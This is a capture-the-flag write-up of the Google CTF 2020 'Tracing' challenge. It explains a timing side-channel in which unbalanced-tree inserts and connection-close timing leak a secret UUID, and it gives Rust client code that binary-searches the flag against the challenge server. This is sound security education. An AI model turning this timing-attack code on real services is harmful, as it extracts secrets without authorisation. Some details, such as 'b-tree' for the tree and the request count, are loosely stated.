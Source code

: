 ## CTF 2020 Tracing writeup

Well, its been a while since ctf google competition has ended (August 2020) but I just discovered it and thought I should give it a go.
Soo here it goes:


The challenge is under the pwn category and it is considered an easy one (but awards 151 points instead of the 50 that most easy challenges are worth)

The description of the challenge is the following:
```
An early prototype of a contact tracing database is deployed for the developers to test,
but is configured with some sensitive data. See if you can extract it.
```

Google provides a zip file that has a basic rust implementation of a server and an implementation of a b-tree.

### Understanding the problem
We can assume that the purpose of using rust here is to make sure that buffer overflow attacks are impossible. Neither the webserver nor b-tree implementation seem to have any unsafe code that we could exploit.

We can formulate though a solution, if we track down the logic the webserver is following.

First of all we can see that the server loads up some flag (thats what we're tasked to find to complete the challenge) which is 16bytes and casts it to a Uuid.
```rust
 let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();
```


Every new connection to the server spawns a thread that handles it and performs the following:
    * Read N bytes untill the reading channel is closed from the client
    * Split the N bytes into chunks of 16 bytes
    * Create N/16 Uuids and insert them into a fresh b-tree
    * Write back to the client the number of inserted Uuids
    * Search the input flag into the b-tree
    * Close the connection
  
Highlighting those in code:
```rust
...
    // receive bytes
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    // split to chunks
    let chunks = {
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };

    let mut count: u32 = 0;
    // create collection of Uuids
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    // Use ids to populate a fresh binary tree
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    // respond with a number
    stream.write_all(&count.to_be_bytes()).await?;

    // perform check
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    // shutdown connection
    stream.shutdown(std::net::Shutdown::Both)?;
...
```

As we can see from the above, we can only alter the content of the b-tree and have no way to retrieve anything other than the number of elements we inserted into it.

### Craft a theoritical solution
What allows to solve this challenge instead is the timing in which the server responds and closes the connection.
The server writes back to the client the moment it has finished inserting the values into the b-tree and closes the connection only after a complete search for the flag into the tree.

Which means that the only attack angle here is **Timing**.

A quick check on the binary tree implementation shows that this is **not** a self-balancing b-tree, which means that we can create a totally unbalanced b-tree and therefore alter the searching time on demand.

A simple example on how we could leverage that and search for the flag is the following:

Assuming that the flag is a value between 1-100, inserting into the binary tree values 50,51,.....80 will create the following tree:
[!image1](./images/tracing1.png)


if the flag is between 0-50 the search operation will be 0(1) and if it is on the upper bound the operation becomes O(n)

We can then measure the time from the moment the server responds till it shuts down the connection.
We repeat the same thing but in reverse this time. We insert 50,49,...20.
which will be O(1) for values higher than 50 and o(n) for the lower bound.

Measuring again will give us 3 possible results.
If our flag is between 50-100 it will take more time to be searched through the first tree and if it is between 0-50 it will take more time on the second tree. IF the time is identical we just found the flag first try (very unlikely). By noting that down we can inference in which half of the key space our flag is on. Congrats, we just performed the first step of Binary search, then we only have to rinse and repeat couple of times till we get really close to the flag value.

### Implement solution
In this exact problem we have 2^ (16*8) = 2^128 flags that we have to binary search through them.

For the sake of getting more familiar with rust I created a client in rust that would perform those checks for me.
What is very convinient is that we could use a ```u128``` to represent each Uuid. Therefore we can easily do numeric operations without a care in the world.

Therefore I use one function that:
    * takes a u128 which is the middle point in my binary search and a sign ("+" or "-") 
    * initiates a connection to the server
    * writes 1000 consecutive (in increasing or decreasing order based on the sign) UUids to the server
    * waits for the response
    * initiates a time instance
    * and returns it when the connection is closed

```rust
fn check_mid(middle: u128, sign: &str) -> std::io::Result<std::time::Instant> {
    let mut stream = TcpStream::connect("some.server:1337")?;
    for i in 0..1000 {
        if sign == "+" {
            stream.write(&(middle + i).to_be_bytes())?;
        } else {
            stream.write(&(middle - i).to_be_bytes())?;
        }
    }
    // close writing channel and make server create b-tree
    stream.shutdown(Shutdown::Write)?;
    let mut buffer: [u8; 4] = [1, 1, 1, 1];
    // read response
    stream.read(&mut buffer)?;
    //start measuring the time
    let now = Instant::now();
    // return the time instance for evaluation
    Ok(now)
}
```

Then I used this function to perform my binary search through the all possible Uuids.

```rust
fn main() {
    // start at the middle of our 16byte key space
    let mut middle: u128 = u128::MAX / 2;
    let mut i = 2;
    while i < 127 {
        let mut right: u128 = 0;
        let mut left: u128 = 0;
        // get accumulated elapsed time from communicating with the server
        for _ in 0..200 {
            right += check_mid(middle, "+")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
            left += check_mid(middle, "-")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
        }
        // move the middle point according to the statistics gathered
        // also this is the essense of the binary search
        if right > left && right.wrapping_sub(left) > 20000 {
            middle = middle + (u128::MAX / 2u128.pow(i));
            i += 1;
        } else if left > right && left.wrapping_sub(right) > 20000 {
            middle = middle - (u128::MAX / 2u128.pow(i));
            i += 1;
        }
        // print iteration of the binary search, u128 , uuid and characters of current iteration
        println!(
            "middle {} : {} : {:?}  : {:?}",
            i,
            middle,
            Uuid::from_bytes(middle.to_be_bytes()),
            middle
                .to_be_bytes()
                .iter()
                .map(|&byte| byte as char)
                .collect::<Vec<char>>()
        );
    }
}
```

It is worth noting that the measurement of time is significant to the binary search path. Random spikes in the network latency can completely ruin our results. Therefore I'm repeating the same request 200 times in an attempt to elimitate the network variable.
In addition, after a quick research I found that google's VM is located in europe-west1-d datacenter and I ran my program from a VM there to further descrese the random latency.


Thank god binary search works this way, and we only need to do 128 requests to search all of the key space of the flag.
After a long while, we can obtain the flag.

In occasional errors, we can restart the app adjusting the ```i``` and ```middle``` for the search to continue from where it failed.
